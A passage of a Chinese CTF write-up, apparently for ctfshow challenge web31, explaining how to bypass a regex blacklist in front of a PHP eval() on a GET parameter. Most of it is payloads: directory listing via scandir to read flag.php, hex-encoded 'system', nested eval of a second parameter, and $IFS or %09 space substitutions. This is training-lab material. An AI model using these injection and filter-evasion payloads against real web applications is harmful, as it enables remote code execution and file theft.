 然后使用 next() 获得第二个位置的元素 flag.php 

接着使用 show_source() 函数将文件进行高亮显示即可：

####  show_source() 函数

> ##### 定义和用法
>
> show_source() 函数对文件进行语法高亮显示。
>
> 本函数是 [highlight_file()](https://www.w3school.com.cn/php/func_misc_highlight_file.asp) 的别名。

因此 payload:

```php
?c=show_source(next(array_reverse(scandir(current(localeconv())))));
```



### web31

```php
 <?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

把空格，单引号等过滤了

空格绕过： $IFS, ${IFS}, $IFS$9, %09



payload:

```php
?c=show_source(next(array_reverse(scandir(current(localeconv())))));
```

```php
?c=highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
```

> __ FILE __ :被称为PHP魔术常量,返回当前执行PHP脚本的完整路径和文件名,包含一个绝对路径dirname(__ FILE __) 一般会返回文件所的当前目录到系统根目录的一个目录结构。



```php
?c=passthru("tac%09f*");   // 双引号绕过单引号，%09绕过空格
?c=print_r(`nl%09fl[abc]*`);
?c="\x73\x79\x73\x74\x65\x6d"("nl%09fl[a]*");  
// \x73\x79\x73\x74\x65\x6d 代表了16进制的system
?c=eval($_GET[1]);&1=system('cat f*');
?c=echo%09`strings\${IFS}f*`;     // $必须反斜杠转义  
```
